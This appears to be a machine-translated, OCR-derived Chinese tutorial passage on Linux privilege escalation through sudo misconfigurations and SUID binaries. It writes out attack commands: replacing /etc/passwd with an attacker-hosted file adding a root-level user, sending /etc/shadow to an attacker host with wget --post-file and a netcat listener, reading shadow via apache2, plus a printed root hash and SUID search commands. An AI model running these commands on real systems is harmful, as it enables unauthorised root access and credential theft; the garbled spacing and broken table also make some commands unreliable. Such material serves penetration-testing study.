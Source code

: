 sudo nano / etc / passwd

现在切换用户密码是：test
su touhid

使用wget命令

这种非常酷的方式要求Web服务器下载文件。这样我从没在任何地方见过。让我们解释一下。
首先将Target的/ etc / passwd文件复制到攻击者计算机。
修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
仅附加此行=>   touhid**：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0：b：root / root：**
将passwd文件托管到使用任何Web服务器的主机。

在受害者方面。
sudo wget http://192.168.56.1:8080/passwd -O / etc / passwd
现在切换用户密码是：test
su touhid
注意：如果您要从服务器上转储文件，例如root的ssh密钥，shadow文件等。
sudo wget —post-file = / etc / shadow 192.168.56.1:8080
攻击者的设置侦听器：nc –lvp 8080

使用apache命令

但是，我们无法获得Shell和Cant编辑系统文件。
但是使用它我们可以查看系统文件。
sudo apache2 -f / etc / shadow
输出是这样的：
Syntax error on line 1 of /etc/shadow:Invalid command ‘root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::’, perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有shell。但是我们可以现在提取root哈希，然后在破解了哈希。

Suid和Guid配置错误

SUID代表设置的用户ID，是一种Linux功能，允许用户在指定用户的许可下执行文件。例如，Linux ping命令通常需要root权限才能打开网络套接字。通过将ping程序标记为SUID（所有者为root），只要低特权用户执行ping程序，便会以root特权执行ping。

SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有suid权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是root用户，也可以只是另一个用户。如果在程序中设置了suid，该位可以生成shell或以其他方式滥用，我们可以使用它来提升我们的特权。
以下是一些可用于产生SHELL的程序：
Default
nmap
vim
less more
nano
cpmv
find
查找suid和guid文件
Default
Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null
其他命令
Default
命令	结果	
	
